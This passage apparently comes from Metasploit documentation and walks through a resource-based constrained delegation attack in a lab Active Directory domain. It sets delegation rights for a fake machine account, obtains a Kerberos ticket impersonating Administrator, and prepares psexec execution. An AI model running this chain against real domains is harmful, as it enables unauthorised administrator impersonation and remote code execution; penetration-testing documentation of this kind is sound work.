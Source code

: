 - Setup RBCD with the `admin/ldap/rbcd` module using the LDAP session

```
msf auxiliary(admin/ldap/rbcd) > run verbose=true rhost=192.168.232.110 session=1 delegate_to=VICTIM action=READ
[*] Running module against 192.168.232.110
[+] Successfully bound to the LDAP server via existing SESSION!
[*] Discovering base DN automatically
[*] The msDS-AllowedToActOnBehalfOfOtherIdentity field is empty.
[*] Auxiliary module execution completed

msf auxiliary(admin/ldap/rbcd) > run verbose=true rhost=192.168.232.110 session=1 delegate_to=VICTIM action=WRITE delegate_from=FAKE01$
[*] Running module against 192.168.232.110
[+] Successfully bound to the LDAP server via existing SESSION!
[*] Discovering base DN automatically
[+] Successfully created the msDS-AllowedToActOnBehalfOfOtherIdentity attribute.
[*] Added account:
[*]   S-1-5-21-3065298949-3337206023-618530601-1618 (FAKE01$)
[*] Auxiliary module execution completed

msf auxiliary(admin/ldap/rbcd) > run verbose=true rhost=192.168.232.110 session=1 delegate_to=VICTIM action=READ
[*] Running module against 192.168.232.110
[+] Successfully bound to the LDAP server via existing SESSION!
[*] Discovering base DN automatically
[*] Allowed accounts:
[*]   S-1-5-21-3065298949-3337206023-618530601-1618 (FAKE01$)
[*] Auxiliary module execution completed
```

- Getting the Kerberos tickets using the `admin/kerberos/get_ticket` module

```
msf auxiliary(admin/kerberos/get_ticket) > run action=GET_TGS rhost=192.168.232.110 username=FAKE01 password=123456 domain=newlab.local spn=cifs/VICTIM.newlab.local impersonate=Administrator
[*] Running module against 192.168.232.110
[+] 192.168.232.110:88 - Received a valid TGT-Response
[*] 192.168.232.110:88 - TGT MIT Credential Cache ticket saved to /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_759601.bin
[*] 192.168.232.110:88 - Getting TGS impersonating Administrator@newlab.local (SPN: cifs/VICTIM.newlab.local)
[+] 192.168.232.110:88 - Received a valid TGS-Response
[*] 192.168.232.110:88 - TGS MIT Credential Cache ticket saved to /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_975187.bin
[+] 192.168.232.110:88 - Received a valid TGS-Response
[*] 192.168.232.110:88 - TGS MIT Credential Cache ticket saved to /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_335229.bin
[*] Auxiliary module execution completed
```

- Code execution using the `windows/smb/psexec` module

```
msf exploit(windows/smb/psexec) > klist
Kerberos Cache
==============
id   host             principal                   sname                                        enctype  issued                     status  path
--   ----             ---------                   -----                                        -------  ------                     ------  ----
105  192.168.232.110  FAKE01@NEWLAB.LOCAL         krbtgt/NEWLAB.LOCAL@NEWLAB.LOCAL             AES256   2025-01-23 19:29:59 +0100  active  /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_759601.bin
106  192.168.232.110  Administrator@NEWLAB.LOCAL  FAKE01@NEWLAB.LOCAL                          AES256   2025-01-23 19:29:59 +0100  active  /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_975187.bin
```